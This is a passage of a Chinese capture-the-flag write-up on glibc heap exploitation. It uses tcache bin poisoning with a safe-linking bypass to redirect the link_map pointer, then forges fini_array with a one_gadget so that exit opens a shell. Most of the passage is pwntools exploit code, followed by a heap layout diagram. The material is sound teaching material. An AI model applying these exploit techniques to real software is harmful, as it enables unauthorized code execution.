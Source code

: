 #### 0x03 Tcache Bin Poisoning Arbitrary Write

​	如法炮制，**劫持 `fake_chunk1` tcache bin `next` 字段**，两次 `delete` 两次 `add` 分配新 chunk 至 `_ns_loaded` 指针并修改为可控堆地址。

Exp 3：

```python
chunk5_addr = chunk3_addr + 0x60
chunk6_addr = chunk5_addr + 0x30
fini_array_offset = 0x3D78
target = link_map_addr
fake_rt_ld_addr = chunk6_addr
print('target: ' + hex(target - 0x10))
edit(1, b'\n', cyclic(8) + p64(fake_chunk0_addr)[0:2])
edit(50, p64(0x841) + p64(51)[0:7], b'\n')
edit(1, b'\n', cyclic(8) + p64(fake_chunk1_addr)[0:2])
edit(51, p64(0x31) + p64(3)[0:7],cyclic(8) + p64(chunk3_addr)[0:2])
delete(4)
delete(3)
edit(51, p64(0x31) +
        p64(
            (target - 0x10) ^ (fake_chunk1_addr >> 12) # unsafe unlink
        )[0:7],                                        # name (0x10)
    cyclic(8) + p64(chunk5_addr)[0:2])
add(b'PWN!', b'PWN!')
add(cyclic(8) + p64(fake_rt_ld_addr + 0x8 - fini_array_offset)[0:7], p64(4)) # name (0x8)
edit(1, b'123', cyclic(8) + p64(fake_chunk0_addr)[0:2])
edit(50, p64(0x841) + p64(main_arena_addr)[0:7], p64(main_arena_addr))
edit(1, b'123', cyclic(8) + p64(chunk6_addr)[0:2])
```

#### 0x04 Fake `fini_array`

​	终于结束了。在对应位置写入 one_gadget，exit getshell。（🥳🎉）

Exp 4：

```python
one_gadget = 0xebcf1
edit(6, p64(libc_base_addr + one_gadget), cyclic(8))
exitit()

p.interactive()
```

#### 0xff Appendix

一张图：

```
                     +main--+                    
                     | ...  |                    
                     | size |                    
                     |  id1 |                    
                     |  na  |                    
                     |  me  |                    
                     | phone|                    
                     | next |                    
                     | size |                    
                     |  id2 | +fake0-+           
                     |  na  |-| size |           
            +fake1-+ |  me  |-| id50 |           
            | size |-| phone|-|  na  |           
unsort pos->| id51 |-| next |-|  me  |           
            |  na  |-| size |-| phone|           
            |  me  |-|  id3 |<| next |-tcache pos
            | phone|-|  na  | +------+           
```